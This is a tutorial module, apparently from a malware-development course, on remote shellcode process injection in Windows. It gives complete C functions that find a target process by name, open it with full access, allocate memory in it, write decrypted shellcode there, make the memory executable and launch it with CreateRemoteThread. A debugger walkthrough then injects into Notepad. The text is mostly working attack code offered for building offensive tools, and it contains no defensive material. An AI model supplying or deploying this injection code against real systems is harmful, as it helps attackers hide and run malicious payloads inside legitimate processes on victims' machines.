








Introduction
This module will be similar to the previous DLL Injection module with minor changes. Shellcode process injection will use almost the same Windows APIs to perform the task:
Enumerating Processes
Similarly to the previous module, process injection starts by enumerating the processes. The process enumeration code snippet shown below was already explained in the previous module.
BOOL GetRemoteProcessHandle(LPWSTR szProcessName, DWORD* dwProcessId, HANDLE* hProcess) {
// According to the documentation:
// Before calling the Process32First function, set this member to sizeof(PROCESSENTRY32).
// If dwSize is not initialized, Process32First fails.
PROCESSENTRY32 Proc = {
.dwSize = sizeof(PROCESSENTRY32)
};
HANDLE hSnapShot = NULL;
// Takes a snapshot of the currently running processes
hSnapShot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, NULL);
if (hSnapShot == INVALID_HANDLE_VALUE){
printf("[!] CreateToolhelp32Snapshot Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
// Retrieves information about the first process encountered in the snapshot.
if (!Process32First(hSnapShot, &Proc)) {
printf("[!] Process32First Failed With Error : %d \n", GetLastError());
goto _EndOfFunction;
}
do {
WCHAR LowerName[MAX_PATH * 2];
if (Proc.szExeFile) {
DWORD dwSize = lstrlenW(Proc.szExeFile);
DWORD i = 0;
RtlSecureZeroMemory(LowerName, MAX_PATH * 2);
// Converting each charachter in Proc.szExeFile to a lower case character
// and saving it in LowerName
if (dwSize < MAX_PATH * 2) {
for (; i < dwSize; i++)
LowerName[i] = (WCHAR)tolower(Proc.szExeFile[i]);
LowerName[i++] = '\0';
}
}
// If the lowercase'd process name matches the process we're looking for
if (wcscmp(LowerName, szProcessName) == 0) {
// Save the PID
*dwProcessId = Proc.th32ProcessID;
// Open a handle to the process
*hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, Proc.th32ProcessID);
if (*hProcess == NULL)
printf("[!] OpenProcess Failed With Error : %d \n", GetLastError());
break;
}
// Retrieves information about the next process recorded the snapshot.
// While a process still remains in the snapshot, continue looping
} while (Process32Next(hSnapShot, &Proc));
// Cleanup
_EndOfFunction:
if (hSnapShot != NULL)
CloseHandle(hSnapShot);
if (*dwProcessId == NULL || *hProcess == NULL)
return FALSE;
return TRUE;
}Shellcode Injection
To perform shellcode injection the InjectShellcodeToRemoteProcess function will be used. The function takes 3 parameters:
hProcess - A handle to the opened remote process.pShellcode - The deobfuscated shellcode's base address and size. The shellcode must be in plaintext before being injected because it cannot be edited once it's in the remote process.sSizeOfShellcode - The size of the shellcode.Shellcode Injection - Code Snippet
BOOL InjectShellcodeToRemoteProcess(HANDLE hProcess, PBYTE pShellcode, SIZE_T sSizeOfShellcode) {
PVOID pShellcodeAddress = NULL;
SIZE_T sNumberOfBytesWritten = NULL;
DWORD dwOldProtection = NULL;
// Allocate memory in the remote process of size sSizeOfShellcode
pShellcodeAddress = VirtualAllocEx(hProcess, NULL, sSizeOfShellcode, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
if (pShellcodeAddress == NULL) {
printf("[!] VirtualAllocEx Failed With Error : %d \n", GetLastError());
return FALSE;
}
printf("[i] Allocated Memory At : 0x%p \n", pShellcodeAddress);
printf("[#] Press <Enter> To Write Payload ... ");
getchar();
// Write the shellcode in the allocated memory
if (!WriteProcessMemory(hProcess, pShellcodeAddress, pShellcode, sSizeOfShellcode, &sNumberOfBytesWritten) || sNumberOfBytesWritten != sSizeOfShellcode) {
printf("[!] WriteProcessMemory Failed With Error : %d \n", GetLastError());
return FALSE;
}
printf("[i] Successfully Written %d Bytes\n", sNumberOfBytesWritten);
memset(pShellcode, '\0', sSizeOfShellcode);
// Make the memory region executable
if (!VirtualProtectEx(hProcess, pShellcodeAddress, sSizeOfShellcode, PAGE_EXECUTE_READWRITE, &dwOldProtection)) {
printf("[!] VirtualProtectEx Failed With Error : %d \n", GetLastError());
return FALSE;
}
printf("[#] Press <Enter> To Run ... ");
getchar();
printf("[i] Executing Payload ... ");
// Launch the shellcode in a new thread
if (CreateRemoteThread(hProcess, NULL, NULL, pShellcodeAddress, NULL, NULL, NULL) == NULL) {
printf("[!] CreateRemoteThread Failed With Error : %d \n", GetLastError());
return FALSE;
}
printf("[+] DONE !\n");
return TRUE;
}Deallocating Remote Memory
VirtualFreeEx is a WinAPI that is used to deallocate previously allocated memory in a remote process. This function should only be called after the payload has fully finished execution otherwise it might free the payload's content and crash the process.
BOOL VirtualFreeEx(
[in] HANDLE hProcess,
[in] LPVOID lpAddress,
[in] SIZE_T dwSize,
[in] DWORD dwFreeType
);VirtualFreeEx takes the same parameter as the VirtualFree WinAPI with the only difference being that VirtualFreeEx takes an additional parameter (hProcess) that specifies the target process where the memory region resides.
Debugging
In this section, the implementation is debugged using the xdbg debugger to further understand what is happening under the hood.
This walkthrough injects shellcode into a Notepad process therefore start by opening up Notepad and attaching the x64 xdbg debugger to it. The image below shows the process has PID 22992.

Run RemoteShellcodeInjection.exe providing notepad.exe as an argument. The binary will start by searching for the PID of Notepad which should be the same PID shown in the xdbg debugger, which in this case is 22992.

Next, the binary will decrypt the payload. Notice that attempting to access the memory address will result in an error. The reason this happens is because the debugger is attached to the notepad.exe process whereas the deobfuscation process occurs in the local process which is RemoteShellcodeInjection.exe.

To view the deobfuscated payload, a new instance of xdbg must be opened and attached to the RemoteShellcodeInjection.exe process.

Back to the Notepad debugger instance, the next step is memory allocation. The base address where the payload will be written is 0x0000021700230000. The debugger shows that the allocated memory region was zeroed out.

The deobfuscated payload is then written to the allocated memory region in the remote process.

Analyzing the local process, the payload was successfully zeroed out since it is not required anymore.

Finally, the payload is executed in the remote process inside of a new thread.
